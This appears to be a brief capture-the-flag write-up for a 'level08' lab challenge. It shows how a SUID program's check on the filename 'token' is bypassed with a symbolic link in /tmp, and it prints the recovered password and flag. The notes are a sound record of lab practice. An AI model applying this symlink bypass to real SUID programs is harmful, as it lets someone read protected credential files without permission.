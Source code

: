 ### Level08

-SUID plus a token file in home directory

-strings on SUID so he takes a file and open it then print the content of file

-and we can’t give it a file named token

-I create a  link to token in tmp : 

```
ln -s /home/user/level08/token /tmp/y (we can’t name the file token)
```
-then executed the SUID with the link : 
```
./level08 /tmp/y => quif5eloekouj29ke0vouxean
```
-its the password to the user flag08

-getflag => 25749xKZ8L7DkSCwJkT9dyv6f
